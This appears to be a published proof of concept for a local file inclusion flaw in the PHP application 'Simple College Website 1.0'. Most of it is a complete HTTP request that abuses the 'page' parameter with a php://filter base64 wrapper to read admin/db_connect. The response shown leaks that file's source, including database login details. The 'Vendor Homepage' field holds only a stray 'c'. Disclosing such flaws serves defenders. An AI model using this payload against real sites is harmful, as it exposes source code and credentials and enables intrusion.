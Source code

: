 # Simple College Website 1.0 - 'page' Local File Inclusion

# Vendor Homepage: c
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/simple-college-website.zip
# Version: 1.0


## Vulnerability Type :
Local File Inclusion


## Vulnerability Version :
1.0


## Recurring environment:
* Windows 10
* PHP 5.4.5
* Apache 2.4.23


## Vulnerability Description AND recurrence:

```
#Request
 
GET /college_website/index.php?page=php://filter/convert.base64-encode/resource=admin/db_connect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=7ls9j695lglc2eah5khecv2g66
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
 
#Response 
``` 
 <main class="">
 
        PD9waHAgDQoNCiRjb25uPSBuZXcgbXlzcWxpKCdsb2NhbGhvc3QnLCdyb290JywncGFzc3dvcmQnLCdjb2xsZWdlX3dlYnNpdGVfZGInKW9yIGRpZSgiQ291bGQgbm90IGNvbm5lY3QgdG8gbXlzcWwiLm15c3FsaV9lcnJvcigkY29uKSk7DQo=       
 
</main>
```
